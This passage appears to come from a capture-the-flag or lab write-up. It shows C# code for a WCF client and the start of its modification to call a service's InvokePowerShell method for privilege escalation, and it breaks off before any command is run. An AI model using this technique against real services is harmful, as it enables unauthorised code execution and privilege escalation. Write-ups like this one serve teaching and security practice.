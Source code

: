 
The InvokePowerShell function executes an inputted string of PowerShell-commands and returns the output of the command. We have found our privesc-vector! Now we simply have to write a client to execute our PowerShell-commands.

### Client

The client only has one method `Main` defined:

```c#
using RemotingSample;
using System;
using System.ServiceModel;

namespace Client {

    public class Client
    {
        public static void Main() {
            ChannelFactory<IWcfService> channelFactory = new ChannelFactory<IWcfService>(
                new NetTcpBinding(SecurityMode.Transport),"net.tcp://localhost:8889/wcf/NewSecretWcfEndpoint"
            );
            IWcfService client = channelFactory.CreateChannel();
            Console.WriteLine(client.GetDiskInfo());
            Console.WriteLine(client.GetCpuInfo());
            Console.WriteLine(client.GetRamInfo());
        }
    }
}
```

The client run's three of the five defined RemotingMethods, skipping `GetUsers` and `InvokePowerShell`. Let us modify the Main-method so we get code-execuction:

```c#
public static void Main()
{
    IWcfService client; // Define client

    try
    {
        Console.WriteLine("[*] Initiating connection to endpoint...");
        // Try to establish connection to service (Unmodified)
        ChannelFactory<IWcfService> channelFactory = new ChannelFactory<IWcfService>(
            new NetTcpBinding(SecurityMode.Transport), "net.tcp://localhost:8889/wcf/NewSecretWcfEndpoint"
        );
        client = channelFactory.CreateChannel();
    }
    catch (Exception ex)
    {
        Console.WriteLine("[-] Exception occurred: " + ex.Message);
        return; // Exit on error
    }

    /*
        * Exploit added: (Execute commands via PowerShell)
        */

    if (client == null)
    {
        Console.WriteLine("[-] No connection could be established!");
        return; // Quit if no connection available
    }

```